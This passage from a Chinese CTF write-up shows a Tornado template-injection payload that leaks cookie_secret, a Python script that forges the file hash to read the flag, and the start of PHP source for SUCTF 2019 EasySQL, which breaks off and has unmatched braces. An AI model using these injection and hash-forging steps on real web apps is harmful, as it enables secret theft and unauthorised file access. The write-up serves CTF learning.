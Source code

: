 ```python
error?msg={{1*2}}
```
![](https://img-blog.csdnimg.cn/20200313224419149.png)
获取cookie_secret：`error?msg={{handler.settings}}`
![](https://img-blog.csdnimg.cn/20200313224529109.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
根据获得的cookie_secret构造md5(cookie_secret+md5(filename))，python脚本如下：
```python
import hashlib
hash = hashlib.md5()

filename='/fllllllllllllag'
cookie_secret="2ad0f0aa-09ba-4658-b836-3f024bcb6702"
hash.update(filename.encode('utf-8'))
s1=hash.hexdigest()
hash = hashlib.md5()
hash.update((cookie_secret+s1).encode('utf-8'))
print(hash.hexdigest())
```
运行得到`cdc288af8c27adc5ceea4581b0b94d46`
![](https://img-blog.csdnimg.cn/20200313224939932.png)
`file?filename=/fllllllllllllag&filehash=cdc288af8c27adc5ceea4581b0b94d46`得到flag
![](https://img-blog.csdnimg.cn/20200313225128999.png)
##  [SUCTF 2019]EasySQL
不会。。。查看wp的时候得到了源码：
```php
<?php
    session_start();

    include_once "config.php";

    $post = array();
    $get = array();
    global $MysqlLink;

    //GetPara();
    $MysqlLink = mysqli_connect("localhost",$datauser,$datapass);
    if(!$MysqlLink){
        die("Mysql Connect Error!");
    }
    $selectDB = mysqli_select_db($MysqlLink,$dataName);
    if(!$selectDB){
        die("Choose Database Error!");
    }

    foreach ($_POST as $k=>$v){
        if(!empty($v)&&is_string($v)){
            $post[$k] = trim(addslashes($v));
        }
    }
    foreach ($_GET as $k=>$v){
        }
    }
    //die();
    ?>

<html>
<head>
</head>

<body>
```